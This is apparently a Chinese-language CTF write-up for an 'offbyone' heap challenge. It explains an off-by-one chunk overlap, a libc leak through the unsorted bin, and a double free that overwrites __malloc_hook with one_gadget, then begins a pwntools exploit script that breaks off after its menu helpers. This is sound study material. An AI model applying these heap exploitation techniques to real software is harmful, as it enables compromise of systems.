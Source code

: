 ### 逆向分析

逻辑与上题相同

### 调试

首先依旧申请以8结尾的chunk，占用下一个chunk的prev_size位从而off_by_one修改下一个chunk的大小，然后free掉放入unsorted bin中（一个大的，重叠了两块chunk）

然后再申请小的chunk,申请两块之后后一块就和最开始申请的重合了（2，4chunk一样）

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1605096398318-215fb3c9-5786-4297-a6f7-4f555c2d8495.png)

此外，申请出来的第一块可以leak地址（unsorted bin）双链表，链入了main_arena：

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1605096267308-304fb709-603f-41a1-8533-ef053d7c73d0.png)

之后double free改malloc_hook为one_gadget即可

若是one_gadget不行（栈环境有问题）

#### 调整栈空间变量的方法

1.通过使用libc 报错（double free）malloc时的环境

2.realloc_hook=__malloc_hook-0x8的位置上，可以作为一个跳板，将malloc_hook地址改为realloc_hook地址，再将realloc_hook的内容填成one_gadget

### 脚本

```python
from pwn import *

p = process('./offbyone')
context.log_level = 'debug'

def launch_gdb():
    context.terminal = ['gnome-terminal', '-x', 'sh', '-c'] 
    gdb.attach(proc.pidof(p)[0]) 

def new(s,c):
    p.recvuntil('>')
    p.sendline('1')
    p.recvuntil('size')
    p.sendline(str(s))
    p.recvuntil('data')
    p.send(c)
    

def delete(i):
    p.recvuntil('>')
    p.sendline('2')
    p.recvuntil('index')
    p.sendline(str(i))
    

def show(i):
    p.recvuntil('>')
    p.sendline('3')
    p.recvuntil('index?')
    p.sendline(str(i))

def edit(i,s):
    p.recvuntil('>')
    p.sendline('4')
    p.recvuntil('index?')
```